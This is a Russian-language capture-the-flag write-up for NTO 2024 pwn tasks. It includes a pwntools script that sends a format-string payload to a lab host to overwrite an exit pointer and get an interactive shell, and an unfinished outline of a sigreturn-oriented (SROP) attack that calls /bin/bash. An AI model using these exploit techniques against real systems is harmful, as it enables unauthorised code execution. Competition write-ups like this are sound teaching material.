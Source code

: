 ```

exit_addr = 4210712
win_addr = 0x401156

ex = remote('192.168.12.13', 1923)

payload = (b"%86p%14$n%16315p%15$n").ljust(64, b"*")
payload += p64(exit_addr)
payload += p64(exit_addr+1)


ex.sendline(payload)

ex.interactive()
```
9. Профит
![flag](https://github.com/artkegor/nto2024_writeups/blob/main/task-based/pwn1/proofpwn1.png)

---

# Решение PWN-2 (20)
1. Откроем файл task и увидим в функции main() следующее содержимое:
```

void entry(void)

{
  syscall();
  return;
}

```
2. Видим syscall и понимаем, что нам нужен SROP для решения.
3. В самом конце файла записана строка `/bin/bash` которая и должна быть передана в качестве аргумента для `syscall`
4. Находим подходящую статью по SROP в учебнике по PWN - [вот ссылка](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop)
5. Пример в статье очень напоминает нам наш файл.